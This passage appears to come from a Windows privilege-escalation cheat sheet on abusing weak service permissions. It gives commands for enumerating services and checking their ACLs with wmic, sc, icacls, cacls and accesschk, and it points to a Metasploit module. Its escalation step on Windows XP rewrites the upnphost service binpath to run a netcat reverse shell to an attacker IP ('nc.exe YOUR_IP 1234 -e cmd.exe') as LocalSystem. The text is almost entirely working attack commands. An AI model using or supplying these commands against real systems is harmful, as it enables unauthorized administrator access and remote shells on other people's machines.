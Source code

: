     $ wmic service NAMEOFSERVICE call startservice
    net stop [service name] && net start [service name]

    $ sc start/stop serviceName

The following commands will print the affected services:

    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

If wmic is not available we can use sc.exe:

    $ sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

You can also manually check each service using cacls:

    $ cacls "C:\path\to\file.exe"

If you don't have access to vmic, you can do:

    $ sc qc upnphost

Windows XP SP1 is known to be vulnerable to EoP in **upnphost**. You get Administrator with:

    $ sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
    sc config upnphost obj= ".\LocalSystem" password= ""
    sc qc upnphost

If it fails because of a missing dependency, run the following:

    $ sc config SSDPSRV start= auto
    net start SSDPSRV
    net start upnphost

Or remove the dependency:

    $ sc config upnphost depend= ""

Using meterpreter:

    > exploit/windows/local/service_permissions

If wmic and sc is not available, you can use accesschk. For Windows XP, version 5.2 of accesschk is needed:

    https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

    $ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
    $ accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
    $ accesschk.exe -qdws Users C:\Windows\

Then query the service using Windows sc:

    $ sc qc <vulnerable service name>
